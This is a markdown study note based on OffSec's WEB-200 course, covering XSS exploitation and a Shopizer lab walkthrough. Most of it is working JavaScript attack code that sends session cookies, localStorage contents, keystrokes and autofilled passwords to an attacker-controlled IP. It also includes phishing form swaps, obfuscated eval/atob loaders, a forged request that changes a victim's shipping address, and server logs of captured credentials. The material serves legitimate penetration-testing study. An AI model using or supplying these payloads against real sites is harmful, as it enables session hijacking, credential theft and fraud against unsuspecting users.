---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Exploitation

> _All the content below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

## Moving the Payload to an External Resource

Creating a JavaScript file containing the payload and serve that to the target by using `<script src="http://<attacker_IP>/xss.js"></script>` (Figure 1).

<figure><figcaption><p>Figure 1: Serving a malicious JavaScript file to the target.</p></figcaption></figure>


This payload can't be used for any other XSS styles that won't automatically execute JavaScript, such as client XSS vulnerabilities that use `innerHTML`.


## Session Hijacking

We can create a malicious JavaScript file and exfiltrate the target's session cookie.


```javascript
// save the value of the cookie in a variable
let cookie = document.cookie
// URL-encode the variable
let encodedCookie = encodeURIComponent(cookie)

// make a GET request to our attacker machine exfiltrating the cookie
fetch("http://192.168.45.214/exfil?data=" + encodedCookie)
```


We can serve the payload using the same script as above.

```javascript
<script src="http://192.168.45.214/xss.js"></script>
```

When the target clicks the malicious link, we will receive their cookie.


```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.198.101 - - [05/Aug/2024 12:07:13] "GET /xss.js HTTP/1.1" 200 -
192.168.198.101 - - [05/Aug/2024 12:07:13] code 404, message File not found
192.168.198.101 - - [05/Aug/2024 12:07:13] "GET /exfil?data=session%3DSomeExampleCookie HTTP/1.1" 404 -
```


If the cookie has the [`HttpOnly`](../../common-findings/cookie-flags.md) flag set, JavaScript cannot access it, thus, we can't exfiltrate its value.

```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.198.101 - - [05/Aug/2024 12:15:53] "GET /xss.js HTTP/1.1" 200 -
192.168.198.101 - - [05/Aug/2024 12:15:53] code 404, message File not found
192.168.198.101 - - [05/Aug/2024 12:15:53] "GET /exfil?data= HTTP/1.1" 404 -
```

## Stealing Local Secrets

Browsers have two types of storage available: [`sessionStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/sessionStorage) and [`localStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage).

<table><thead><tr><th width="195">Type</th><th width="309">Description</th><th>Accessed by</th></tr></thead><tbody><tr><td><code>sessionStorage</code></td><td>Stores the data until the tab is closed</td><td><code>window.localStorage</code></td></tr><tr><td><code>localStorage</code></td><td>Stores the data until explicitly deleted</td><td><code>window.sessionStorage</code></td></tr></tbody></table>

To exfiltrate `localStorage`, we will convert the object into a string, URL-encode it, and use `fetch` to exfil the data.


```javascript
let data = JSON.stringify(localStorage)
let encodedData - encodeURIComponent(data)
fetch("http://<attackerIP>/exfil?data=" + encodedData)
```


```javascript
// injected payload
<script src="http://192.168.45.214/xssLocalStorage.js"></script>
```


```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.45.214 - - [05/Aug/2024 16:54:47] "GET /xssLocalStorage.js HTTP/1.1" 200 -
192.168.45.214 - - [05/Aug/2024 16:54:47] code 404, message File not found
192.168.45.214 - - [05/Aug/2024 16:54:47] "GET /exfil?data=%7B%22BROWSER_OPT_KEY%22%3A%22%7B%5C%22httpOnlyCookie%5C%22%3A%7B%5C%22title%5C%22%3A%5C%22Use%20HttpOnly%20Cookie%5C%22%2C%5C%22value%5C%22%3Afalse%7D%2C%5C%22nonHttpOnlyCookie%5C%22%3A%7B%5C%22title%5C%22%3A%5C%22Use%20Non-HttpOnly%20Cookie%5C%22%2C%5C%22value%5C%22%3Atrue%7D%2C%5C%22phishing%5C%22%3A%7B%5C%22title%5C%22%3A%5C%22Blindly%20enter%20credentials%5C%22%2C%5C%22value%5C%22%3Afalse%7D%2C%5C%22savedPasswords%5C%22%3A%7B%5C%22title%5C%22%3A%5C%22Use%20stored%20password%5C%22%2C%5C%22value%5C%22%3Afalse%7D%2C%5C%22keyStrokes%5C%22%3A%7B%5C%22title%5C%22%3A%5C%22Simulate%20keystrokes%5C%22%2C%5C%22value%5C%22%3Afalse%7D%2C%5C%22localStorage%5C%22%3A%7B%5C%22title%5C%22%3A%5C%22Data%20in%20Local%20Storage%5C%22%2C%5C%22value%5C%22%3Afalse%7D%7D%22%7D HTTP/1.1" 404 -
```


## Keylogging

Keylogging is useful when our target is the user rather than the app, but it is limited in the sense that only the current user tab is logged. The JavaScript event for keypresses is `keydown`, which need to be passed into the `addEventListener` function which also accepts a callback function to run for each keydown event.


```javascript
function logKey(event){
    fetch("http://192.168.45.214/k?key=" + event.key)
}

// for each keypress, execute the callback function
document.addEventListener('keydown', logKey);
```


```javascript
// XSS payload
<script src='http://192.168.45.214/xssKeylogger.js'></script>
```


```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.45.214 - - [06/Aug/2024 06:37:32] "GET /xssKeylogger.js HTTP/1.1" 200 -
192.168.198.101 - - [06/Aug/2024 06:37:36] "GET /xssKeylogger.js HTTP/1.1" 200 -
192.168.198.101 - - [06/Aug/2024 06:37:37] code 404, message File not found
192.168.198.101 - - [06/Aug/2024 06:37:37] "GET /k?key=I HTTP/1.1" 404 -
192.168.198.101 - - [06/Aug/2024 06:37:37] code 404, message File not found
192.168.198.101 - - [06/Aug/2024 06:37:37] "GET /k?key=f HTTP/1.1" 404 -
192.168.198.101 - - [06/Aug/2024 06:37:37] code 404, message File not found
192.168.198.101 - - [06/Aug/2024 06:37:37] "GET /k?key= HTTP/1.1" 404 -
192.168.198.101 - - [06/Aug/2024 06:37:37] code 404, message File not found
192.168.198.101 - - [06/Aug/2024 06:37:37] "GET /k?key=I HTTP/1.1" 404 -
<SNIP>

# extract the keystrokes
$ grep 'key' keylogger_output.txt | awk -F'=' '{print $2}' | grep -o '^[a-zA-Z0-9{}]' | tr -d '\n'
IfItypealotonmykeyboardRyuggythinksImworkinghardOS{<SNIP>}
```


## Stealing Saved Passwords

If a password manager app autofills any login form, this information can be extracted via XSS. Password managers search for combination of a `username` or `email` input and an input that has `type` attribute set to `password`.


```javascript
// save the body of the document into a var
let body = document.getElementsByTagName("body")[0]

// create the username element
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";

// create the password element
var p = document.createElement("input");
p.type = "password";
u.style.position = "fixed";
//u.style.opacity = "0";

// append elements to the body
body.append(u)
body.append(p)

// set a GET request after a 5 second timeout
setTimeout(function(){
    fetch("http://192.168.45.214/k?u=" + u.value + "&p=" + p.value)
    }, 5000);
```


```javascript
// XSS payload
<script src='http://192.168.45.214/xssSavedPasswords.js'></script>
```


```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.198.101 - - [06/Aug/2024 07:12:54] "GET /xssSavedPasswords.js HTTP/1.1" 200 -
192.168.198.101 - - [06/Aug/2024 07:12:59] code 404, message File not found
192.168.198.101 - - [06/Aug/2024 07:12:59] "GET /k?u=Ryuggy&p=ShavedHeadsFTW HTTP/1.1" 404 -
```


<figure><figcaption><p>Figure 2: Exfiltrating saved passwords.</p></figcaption></figure>

## Phishing Users

Since we have full access to the HTML document, we could replicate an existing login page and change its `action` attribute to redirect the credentials to us (Figure 3).

<figure><figcaption><p>Figure 3: Inspecting the login form's code.</p></figcaption></figure>

We can create a script that fetches the `login` page, replaces the current page's HTML with the fetched content, and then updates the first form's action URL and method. A step by step explanation can be found below:

1. `fetch("login")` -> fetch the content of the `login` page.
2. `.then(res => res.text().then(data => {` -> coverts the response to text (HTML content).
3. `document.getElementsByTagName("html")[0].innerHTML = data` -> replace the current HTML content of the page with the fetched HTML content.
4. `document.getElementsByTagName("form")[0].action = "http://192.168.45.214"` -> update the `action` attribute of the first form on the page to point to our server.
5. `document.getElementsByTagName("form")[0].method = "get"` -> update the `method` attribute of the first form on the page to use the `GET` method.


```javascript
// grab the login page and access the response using 'then'
fetch("login").then(res => res.text().then(data => {
        document.getElementsByTagName("html")[0].innerHTML = data
        document.getElementsByTagName("form")[0].action = "http://192.168.45.214"
        document.getElementsByTagName("form")[0].method = "get"
}))
```


```javascript
// XSS payload
<script src='http://192.168.45.214/xssPhishing.js'></script>
```


```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.198.101 - - [06/Aug/2024 07:42:32] "GET /xssPhishing.js HTTP/1.1" 200 -
192.168.198.101 - - [06/Aug/2024 07:42:41] "GET /?username=gullible&password=IMaybeGullibleButMyPasswordsAreStrong HTTP/1.1" 200 -
```


<figure><figcaption><p>Figure 4: Exfiltrating user credentials via a phishing attack.</p></figcaption></figure>

## Phishing Users (2)

This time the application does not have its own login page, so we will have to create one and redirect the target user to it. We can find boilerplate HTML login form code, such as [this](https://www.w3schools.com/howto/howto\_css\_login\_form.asp), and remove the unecessary parts for simplicity. We will need to change the `action` and `method` atrributes of the `form` element so that it sends a `GET` request to our malicious server.


```html
<!-- the action to perform -->
<form action="http://192.168.45.214/login" method="get">

  <div class="container">
    <!-- a label and input field pair for entering a username. -->
    <label for="uname"><b>Username</b></label>
    <input type="text" placeholder="Enter Username" name="uname" required>
    <!-- a label and input field pair for entering a password. -->
    <label for="psw"><b>Password</b></label>
    <input type="password" placeholder="Enter Password" name="psw" required>
    
    <!-- the submit button -->
    <button type="submit">Login</button>
  </div>

</form>
```


If we spin up an HTTP server and test our script, we can see that it is working as intended (Figure 5).

<figure><figcaption><p>Figure 5: Testing the <code>login.html</code> file.</p></figcaption></figure>

The issue here is that this application uses the [`innerHTML`](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security\_considerations) method to reconstuct the table, which means that we can't use the `<script>` tag in order to inject and execute a `.js` file directly (Figure 6). We are forced to use a payload based on the `` tag.

<figure><figcaption><p>Figure 6: Inspecting the <code>list.js</code> code.</p></figcaption></figure>

As a result, we need to find a way to execute our payload (`xssPhishingLogin.js`) via the `` tag. This can be achieved by [creating a `script` element](https://www.codingbeautydev.com/blog/javascript-create-script-element?utm\_source=medium\&utm\_campaign=blog\&utm\_medium=social) within the `` tag. Again, we will remove the unecessary parts from the code, and point it to our malicious server.

```javascript
const script = document.createElement('script');
// point the element's source to our malicious payload
script.src =
  'http://192.168.45.214/xssPhishingLogin.js';

script.async = true;

document.body.appendChild(script);
```

In order to place in within our ``-based XSS payload, we need to convert the above code into a one-liner by removing all the white space.


```javascript

```


Finally, we need to create the `xssPhishingLogin.js` file. We need to use this to essentially replace the HTML code of the List application with the HTML code of our login form. For doing this, we need to convert our `login.html` code into a one-liner and use `innerHTML` to make the swap.


```javascript
document.getElementsByTagName("html")[0].innerHTML = '<form action="http://192.168.45.214/login.html" method="GET"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="uname" required><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="psw" required><button type="submit">Login</button></div></form>'
```


Now that everything is in place, by injecting our XSS payload into the vulnerable field, the target user will be redirected to our login form, and we should receive their credentials.

<figure><figcaption><p>Figure 7: Injecting the XSS payload.</p></figcaption></figure>


```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.198.101 - - [06/Aug/2024 14:13:45] "GET /xssPhishingLogin.js HTTP/1.1" 200 -
192.168.198.101 - - [06/Aug/2024 14:13:51] "GET /login.html?uname=IDontHackStuff&psw=OS%7B<SNIP>%7D HTTP/1.1" 200 -
```


## Shopizer

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

### Recon

In Shopizer's _Products_ > _Handbags_ tab, we notice the `/ref=c:2` string which resembles a URL parameter but it is missing the `?`. Inspecting the page's source code, we see that this string is used in multiple URIs as well as in the `loadCategoryProducts()` method (Figure 12).

<figure><figcaption><p>Figure 12: Inspecting the application's source code.</p></figcaption></figure>

We can try to inject a canary and see whether it gets reflected within the `loadCategoryProducts()` method, which seems to be the case (Figure 13.1). When we try to escape using a single quote and inject valid JavaScript code, the application adds another single quote at the end of the payload automatically (Figure 13.2).

<figure><figcaption><p>Figure 13: Testing for Reflected XSS.</p></figcaption></figure>

After trying different things, we find a way to inject and execute our code by using plus signs (`+`) instead of semicolons (`;`) (Figure 14).

<figure><figcaption><p>Figure 14: Successfully executing a Reflected XSS attack.</p></figcaption></figure>

### Payload Creation

To avoid any potential restrictions that might exist while passing the payload through the URL, we will try and load it from a remote file. When inspecting Shopizer's site map, we notice that it uses the [`jQuery`](https://en.wikipedia.org/wiki/JQuery) library (Figure 15), thus, we might be to use [`jQuery.getScript()`](https://api.jquery.com/jquery.getscript/) method.

<figure><figcaption><p>Figure 15: Inspecting Shopizer's <code>resources</code> folder.</p></figcaption></figure>

We will first create a test payload file (`xssShopizer.js`) to see if everything works as it should. Because we need to inject our XSS payload directly into the URL, we will also need to encode it. We will use the [`window.btoa()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/btoa) method to Base64 encode the payload, and then use the resulting string within the [`window.atob()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/atob) method in order to decode it (Figure 16).


```javascript
alert()
```


<figure><figcaption><p>Figure 16: Base64 encoding and decoding the XSS payload.</p></figcaption></figure>

Finally, in order for our payload to be executed, we will wrap the `atob()` method with the [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global\_Objects/eval) method. We also need to make sure to use the required `'` and `+` signs (Figure 17).


```javascript
// the final XSS payload
'+eval(atob("alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjE0L3hzc1Nob3BpemVyLmpzJyk="))+'
```


<figure><figcaption><p>Figure 17: Successfully execute a remote JavaScript file via an XSS vulnerability.</p></figcaption></figure>

Although the XSS payload worked as intended, we get an `Error` alert right after it (Figure 18). If we repeat the process, we will notice that sometimes the `Error` comes before our payload, which prevents the payload to be executed.

<figure><figcaption><p>Figure 18: The JavaScript error popup after the original payload is executed.</p></figcaption></figure>

As we can see via the browser's `Console` tab, the cause of the `Error` message might be associated with malformed syntax (Figure 19).&#x20;

<figure><figcaption><p>Figure 19: Enumerating the root cause of the <code>Error</code> message.</p></figcaption></figure>

If we wrap our payload with the `btoa()` method in order to Base64 the whole payload, the message gets away (Figure 20).


```javascript
'+btoa(eval(atob("alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjE0L3hzc1Nob3BpemVyLmpzJyk="))+'
```


<figure><figcaption><p>Figure 20: Getting rid of the <code>Error</code> message.</p></figcaption></figure>

### Exploitation

We have successfully enumerated an XSS vulnerability and constructed an executable payload. Unfortunately, when logging into the application, the `JSESSIOND` cookie sets the [`HttpOnly`](../../common-findings/cookie-flags.md) attribute to `true` (Figure 21). As a result, we won't be able to access this with JavaScript.

<figure><figcaption><p>Figure 21: Inspecting the application's cookies.</p></figcaption></figure>

Under _My Account_ > _Billing & shipping information_ there is the option _Add new address_. This `POST` request includes the `customerId` parameter, but it appears to be optional (Figure 22).

<figure><figcaption><p>Figure 22: Inspecting the <code>updateAddress</code> <code>POST</code> request.</p></figcaption></figure>

We can create a JavaScript payload that sends the above request using the target user's cookie, and therefore, changing their address to an address we control so we can redirect their orders.


```javascript
fetch('http://xss/shop/customer/updateAddress.html',{
    // setting the HTTP method
    method: 'POST',
    // the payload will be hosted on the same domain as the application
    // which allows the browser to send the JSESSIONID cookie since the
    // request won't be cross-origin
    mode: 'same-origin',
    credentials: 'same-origin',
    headers: {
      'Content-Type':'application/x-www-form-urlencoded'
    }, 
    body:'customerId=&billingAddress=false&firstName=hax&lastName=hax&company=&address=hax&city=hax&country=AL&stateProvince=z&postalCode=z&phone=z&submitAddress=Change address'
  })
```



```javascript
// the XSS payload
'+btoa(eval(atob("alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjE0L3hzc1Nob3BpemVyQWRkcmVzcy5qcycp")))+'
```


<figure><figcaption><p>Figure 23: Testing our XSS attack.</p></figcaption></figure>

We can also craft an XSS payload to extract the user's stored credentials.


```javascript
let body = document.getElementsByTagName("body")[0]

var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";

var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
//p.style.opacity = "0";

body.append(u)
body.append(p)

setTimeout(function(){
    fetch("http://192.168.45.214/k?u=" + u.value + "&p=" + p.value)
    }, 5000);
```



```javascript
// the XSS payload
'+btoa(eval(atob("alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjE0L3hzc1NhdmVkUGFzc3dvcmRzLmpzJyk=" )))+'
```



```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.228.101 - - [07/Aug/2024 14:19:51] "GET /xssSavedPasswords.js?_=1723036791071 HTTP/1.1" 200 -
192.168.228.101 - - [07/Aug/2024 14:19:56] code 404, message File not found
192.168.228.101 - - [07/Aug/2024 14:19:56] "GET /k?u=AmandaGomesCarvalho@offsec.com&p=ALERT!how<SNIP>? HTTP/1.1" 404 
```

